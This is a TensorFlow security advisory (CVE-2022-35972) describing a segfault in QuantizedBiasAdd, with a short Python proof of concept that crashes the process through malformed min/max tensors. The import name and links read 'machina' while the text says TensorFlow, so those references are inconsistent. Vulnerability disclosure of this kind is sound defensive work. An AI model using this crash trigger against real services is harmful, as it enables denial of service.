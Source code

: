## TFSA-2022-105: Segfault in `QuantizedBiasAdd`

### CVE Number
CVE-2022-35972

### Impact
If `QuantizedBiasAdd` is given `min_input`, `max_input`, `min_bias`, `max_bias` tensors of a nonzero rank, it results in a segfault that can be used to trigger a denial of service attack.
```python
import machina as tf

out_type = tf.qint32
input = tf.constant([85,170,255], shape=[3], dtype=tf.quint8)
bias = tf.constant(43, shape=[2,3], dtype=tf.quint8)
min_input = tf.constant([], shape=[0], dtype=tf.float32)
max_input = tf.constant(0, shape=[1], dtype=tf.float32)
min_bias = tf.constant(0, shape=[1], dtype=tf.float32)
max_bias = tf.constant(0, shape=[1], dtype=tf.float32)
tf.raw_ops.QuantizedBiasAdd(input=input, bias=bias, min_input=min_input, max_input=max_input, min_bias=min_bias, max_bias=max_bias, out_type=out_type)
```

### Patches
We have patched the issue in GitHub commit [785d67a78a1d533759fcd2f5e8d6ef778de849e0](https://github.com/machina/machina/commit/785d67a78a1d533759fcd2f5e8d6ef778de849e0).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
